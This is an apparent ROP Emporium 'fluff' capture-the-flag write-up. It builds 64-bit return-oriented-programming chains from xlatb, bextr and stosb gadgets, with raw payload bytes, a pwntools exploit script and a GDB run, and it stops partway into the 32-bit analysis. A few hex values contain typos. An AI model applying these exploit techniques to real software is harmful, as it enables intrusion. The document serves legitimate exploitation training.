

## 64 bit

Check if binary has some reversing countermeasures with `checksec --file=fluff`



This program has a non-executable stack.

We need a place where to write our "flag.txt" string, so we will look for writable memory areas with the radare2 `iS` command:

`.data` -> `0x00601028`

We need as in **write4** challenge the `print_file()` function's address, we can get it in radare2 with `afl` command, and it is:

`print_file()` -> `0x00400510`

with another radare2 command: `is` (this time is 's' not 'S') we have found  a `questionableGadget` at address `0x00400628`, it contains a three strange gadgets:

```bash
[0x00400520]> s 0x00400628
[0x00400628]> pd 16
            ;-- questionableGadgets:
            0x00400628      d7             xlatb
            0x00400629      c3             ret
			
            0x0040062a      5a             pop rdx
            0x0040062b      59             pop rcx
            0x0040062c      4881c1f23e00.  add rcx, 0x3ef2
            0x00400633      c4e2e8f7d9     bextr rbx, rcx, rdx
            0x00400638      c3             ret
			
            0x00400639      aa             stosb byte [rdi], al
            0x0040063a      c3             ret
            0x0040063b      0f1f440000     nop dword [rax + rax]
			...                         
```

1. address `0x00400628`
	- `xlatb;` -> sets the `al` register to the memory at `[rbx + al]`. so its equivalent to `al = [rbx + unsigned_al]`
	- `ret;`

2. address `0x0040062a`
	- `pop rdx;`
	- `pop rcx;`
	- `add rcx, 0x3ef2;`
	- `bextr rbx, rcx, rdx;` -> extracts bits from `RCX` using an index and length specified by `RDX`. 
		->Bits 7:0 in `RDX` specifies the starting bit position of the extraction.
		->Bits 15:8 in `RDX` specifies the number of bits to extract.
		->The extracted bits are written to `RBX` starting from the least significant bit. 
	- `ret;`
	
3. address `0x00400639`
	- `stosb byte [rdi], al;` -> it tales data from `[rdi]` and puts it into `al` register, then it increment `rdi` value.
	- `ret;`

We have control over `al` with *1* and *3*, over `rdx, rdx, rcx` with *2* but we cant controll `rdi`, so we run `ropper --file "fluff" --search 'pop'` and we find:

`0x00000000004006a3: pop rdi; ret;`

### Controlling RBX
we also have to notice the magic value `0x3ef2` added to `rcx` in *3*
in the first part of the ropchain with *2* we'll write "deadbeefdeadbeef" into `rbx`, to do it we must subtract `0x3ef2` to `beef`  to get: `deadbeeddead7f7d` then reverse the endianess of the string, this will go into `rcx` and then into `rbx`.
We obvisuly must change `deadbeefdeadbeef` with what we want into rbx for our ropchain.

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `0xdeadbeeddeadbeef - 0x3ef2` | "\x7d\x7f\xad\xde\xef\xbe\xad\xde" |

### Controlling AL
After managed `RBX` we can now use `xlab ->  al = [rbx + unsigned_al]` putting into rb `VALUE - unsigned_al`

we must put in al one value at a time until we have "flag.txt", but in order to do this, we must find the characters inside memory, because `[rb + unsigned_al]` is an address. 

We also need to know starting `al`, we can use `info register al` before `xlab` to get it: `0x0b`.
 
So, inside GDB we can use `info proc mapping` to find starting and ending address of the process "./fluff", then we can use gdb's `find "<string> start end"` utility to search for a string inside the range.

![[fluff2]]

Here is how we search for 'f = \x66' character:

![[fluf3]]

Afll address are: 

- 'f' -> `0x7ffff7bee42c`
- 'l' -> `0x7ffff7beea04`
- 'a' -> `0x7ffff7bee259`
- 'g' -> `0x7ffff7beeac0`
- '.' -> `0x7ffff7bf0878`
- 't' -> `0x7ffff7bee23a`
- 'x' -> `0x7ffff7bee8d4`

consiede to subtract current al value and also the magic value `curr_al+0x3ef2` to the char address value before feed it to `bextr`.

Here is the full rop to set `al` value to  `f`:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |

executing it we'll have `$al = 0x66`, but we neet it in `.data` section.

### write AL value in .data

In order to do this we must take advantage of `pop rdi; ret` and `stsob [rdi], al` gadgets, popping `.data` address into `rdi`.
An important detail is that `stos` increment `rdi` so for the next chartacter we won't need to `pop rdi` again with `.data+4`
So our rop became:

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00""|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi`| "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data` | "\x28\x10\x60\x00\x00\x00\x00\x00"  |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |

executing it we can see `f` written in `.data`:

```bash
gdb-peda$ x/8b 0x601028
0x601028:       0x66    0x00    0x00    0x00    0x00    0x00    0x00    0x00
```

### putting all toghether
We , must repeat the last piece of ROP (exept the `pop rdi` piece) one time for each character of the string `flag.txt`, remembering to subtract the right `al` value.
The last step will be printing the file as we did in **write4** chall

- `f_address - curr_al(0x0b) - 0x3ef2` -> `0x7ffff7bee42c`
- `l_address - curr_al(f) - 0x3ef2` -> `0x7ffff7beaaac`
- `a_address - curr_al(l) - 0x3ef2`  -> `0x7ffff7bea2fb`
- `g_address - curr_al(a) - 0x3ef2`  -> `0x7ffff7beab6d`
- `._address - curr_al(g) - 0x3ef2`  -> `0x7ffff7bea31a`
- `t_address - curr_al(.) - 0x3ef2`  -> `0x7ffff7beax1a`
- `x_address - curr_al(t) - 0x3ef2`  -> `0x7ffff7bea96e`
- `t_address - curr_al(x) - 0x3ef2`  -> `0x7ffff7bea2d0`

| ROP                              |                                    |
| -------------------------------- | ---------------------------------- |
| thrash padding                   | "\x55" * 40                        |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `f_address - curr_al(0x0b) - 0x3ef2` | "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi`| "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data` | "\x28\x10\x60\x00\x00\x00\x00\x00"  |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `l_address - curr_al(f) - 0x3ef2` | "\xac\xaa\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `a_address - curr_al(l) - 0x3ef2` | "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `g_address - curr_al(a) - 0x3ef2` | "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `._address - curr_al(g) - 0x3ef2` | "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `t_address - curr_al(.) - 0x3ef2` | k"\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" |
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `x_address - curr_al(t) - 0x3ef2` | "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00"|
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;` | "\x2a\x06\x40\x00"|
| `rdx` extracts 64 bit (all) of rdx from index 0 | "\x00\x40\x00\x00\x00\x00\x00\x00" |
| `t_address - curr_al(x) - 0x3ef2` | "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00"|
| `xlab`| "\x28\x06\x40\x00\x00\x00\x00\x00" |
| `stosb byte [rdi], al;` | "\x39\x06\x40\x00\x00\x00\x00\x00" |
| `pop rdi; ret;` | "\xa3\x06\x40\x00\x00\x00\x00\x00" |
| `.data ` | "\x28\x10\x60\x00\x00\x00\x00\x00" |
| `print_file` | "\x10\x05\x40\x00\x00\x00\x00\x00" |


```bash
python -c 'print "\x55"*40 + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" +  "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xac\xaa\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x10\x05\x40\x00\x00\x00\x00\x00" ' |  ./fluff
```

running the above cell of code in terminal seems it doesent work, but saving the output in a file and then running it inside GDB correctly print the flag before getting a SIGSEV and crashing.

```bash

(kali㉿kali)-[~/Downloads/fluff]
- └─$ python -c 'print "\x55"*40 + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x2f\xa5\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" +  "\x28\x10\x60\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + ```"\xac\xaa\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xfb\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6d\xab\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1f\xc9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x1a\xa3\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\x6e\xa9\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\x2a\x06\x40\x00\x00\x00\x00\x00" + "\x00\x40\x00\x00\x00\x00\x00\x00" + "\xd0\xa2\xbe\xf7\xff\x7f\x00\x00" + "\x28\x06\x40\x00\x00\x00\x00\x00" + "\x39\x06\x40\x00\x00\x00\x00\x00" + "\xa3\x06\x40\x00\x00\x00\x00\x00" + "\x28\x10\x60\x00\x00\x00\x00\x00"+ "\x10\x05\x40\x00\x00\x00\x00\x00" ' > rop
```


```bash         
gdb -q ./fluff
Reading symbols from ./fluff...
(No debugging symbols found in ./fluff)

gdb-peda$ r < rop
Starting program: /home/kali/Downloads/fluff/fluff < rop
fluff by ROP Emporium
x86_64

You know changing these strings means I have to rewrite my solutions...
> Thank you!
ROPE{a_placeholder_32byte_flag!}

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x7ffff7bee1c2 --> 0x4000000000000 
RCX: 0x602010 --> 0x0 
RDX: 0x1c 
RSI: 0x1 
RDI: 0x6022a0 --> 0x0 
RBP: 0x5555555555555555 ('UUUUUUUU')
RSP: 0x7fffffffe118 --> 0x7fffffffe509 ("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games")
RIP: 0x7fffffffe40a ("RTERM=truecolor")
R8 : 0x0 
R9 : 0x7ffff7dacbe0 --> 0x602470 --> 0x7ffff7dadf60 --> 0x0 
R10: 0x7ffff7dc84ea --> 0x6c0065736f6c6366 ('fclose')
R11: 0x202 
R12: 0x400520 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10212 (carry parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x7fffffffe40a:      push   rdx
   0x7fffffffe40b:      push   rsp
   0x7fffffffe40c:      rex.RB push r10
   0x7fffffffe40e:      rex.WRB cmp rax,0x65757274
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe118 --> 0x7fffffffe509 ("PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games")
0008| 0x7fffffffe120 --> 0x7fffffffe567 ("POWERSHELL_TELEMETRY_OPTOUT=1")
0016| 0x7fffffffe128 --> 0x7fffffffe585 ("PWD=/home/kali/Downloads/fluff")
0024| 0x7fffffffe130 --> 0x7fffffffe5a4 ("QT_ACCESSIBILITY=1")
0032| 0x7fffffffe138 --> 0x7fffffffe5b7 ("QT_AUTO_SCREEN_SCALE_FACTOR=0")
0040| 0x7fffffffe140 --> 0x7fffffffe5d5 ("QT_QPA_PLATFORMTHEME=qt5ct")
0048| 0x7fffffffe148 --> 0x7fffffffe5f0 ("SESSION_MANAGER=local/kali:@/tmp/.ICE-unix/756,unix/kali:/tmp/.ICE-unix/756")
0056| 0x7fffffffe150 --> 0x7fffffffe63c ("SHELL=/usr/bin/zsh")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007fffffffe40a in ?? ()
gdb-peda$ 
```

### pwntools

```python
from pwn import *
import ctypes

# this function set the RBX register to the target value
def control_RBX(target, rop):
    rbx_gadget = p64(0x0040062a) # pop rdx; pop rcx; add rcx, 0x3ef2; bextr rbx, rcx, rdx;
    magic_value = 0x3ef2
    rdx = p64(0x4000)
    
    rbx = p64(ctypes.c_ulong(target - magic_value).value)
    
    rop += rbx_gadget + rdx + rbx  
    
    return rop

# this functiojn set the al register to the target value
def control_AL(target, curr_al, elf, rop): 
    
    xlat_gadget = p64(0x00400628) # xlatb; ret;
    
    target_addr = next(elf.search(target))
    rbx = ctypes.c_ulong(target_addr - curr_al).value
    
    rop = control_RBX(rbx, rop)
    rop += xlat_gadget
    
    return rop

# inizializations stuff
elf = context.binary = ELF("fluff")
io = process(elf.path)
context.arch = 'amd64'
context.log_level = 'debug'

# usual thrash padding to get the overflow
payload = b''
payload = b'A'*40

# some  address we need
pop_rdi = p64(0x4006a3) # pop rdi; ret;
data = p64(0x601028)
stos = p64(0x00400639) # stosb byte [rdi], al;

# the fisrt part of the payload will set rdi to data address
payload += pop_rdi + data

al = 0x0b
obj = b'flag.txt'

# here we have the loop to write in memomory the "flag.txt" string
for target in obj:
    payload = control_AL(target, al, io.elf, payload)
    payload += stos
    al = target

# last step is about call the print_file function with the right paramenter 
payload += p64(0x004006a3) # pop rdi; ret
payload += p64(0x00601028) # .data address
payload += p64(0x00400510) # print_file

io.sendline(payload)
print(io.recvall())
```

## 32 bit

lets find all information we need as we did in the 64bit version:
- `.data` -> `0x0804a018`
- `print_file` -> `0x080483d0`
- `questionableGadget` -> `0x08048543`

our gadget are:

```bash
[0xf7f4e0b0]> s 0x08048543
[0x08048543]> pd 16
            ;-- questionableGadgets:
			
            0x08048543      89e8           mov eax, ebp
            0x08048545      bbbababab0     mov ebx, 0xb0bababa
            0x0804854a      c4e262f5d0     pext edx, ebx, eax
            0x0804854f      b8efbeadde     mov eax, 0xdeadbeef
            0x08048554      c3             ret
            
			0x08048555      8611           xchg byte [ecx], dl
            0x08048557      c3             ret
            
			0x08048558      59             pop ecx
            0x08048559      0fc9           bswap ecx
            0x0804855b      c3             ret
```

1.  `pext edx, ebx, eax` -> `0x08048543`
 uses a mask (`eax`) to transfer bits from the operand (`ebx`) in the lowest order bits of the destination (`edx`)
	
the operation can be summarized as follow 
```
TEMP ← SRC1;
			MASK ← SRC2;
			DEST ← 0 ;
			m← 0, k← 0;
			DO WHILE m< OperandSize
				IF MASK\[ m\] = 1 THEN
					DEST\[ k\] ← TEMP\[ m\];
					k ← k+ 1;
			FI
			m ← m+ 1;
			OD			
```

|  |  |  |  |  |  |  |  |  |
| - | - | - | - | -| -| -| -|-|
|ebx| 0 | **1** | **0** | **1**| **1**| 1| 0|1|
|eax| 0 | 1 | 1 | 1| 1| 0| 0|0|
|edx| 0 | 0 | 0 | 0| **1**|**0**|**1**|**1**|

we know by the gadget that the mask will always contain `0xb0bababa`, and to controller the operand (`eax`) we need to controll the `ebp` register the gadget will  need is `pop ebp; ret;` and it is at address `0x080485bb`.
the last thing to notice is that at the end the gadget will set `eax` register to  `0xdeadbeef`.

2. `xchg byte [ecx], dl` -> `0x08048555`
Exchanges the contents of the destination (`[ecx]`) and source (`dl`) operands.
in order to use this gadget we need to control one between the two operand.we can do it with the next gadget

3. ` bswap ecx`-> `0x08048558`
Echamges the 1st byte with the 4th and the 2nd with the 3rd.


Our Objective is always to write `flag.txt` in `.data` section, and the only gadget we have found to do this in the one who can write in memory given an address ` xchg byte [ecx], dl`, so we want to set `ecx` to `.data`, but we also need to put our (or part) of our string into `dl`. how can we achieve this?


https://mishap.dev/posts/rop-emporium/

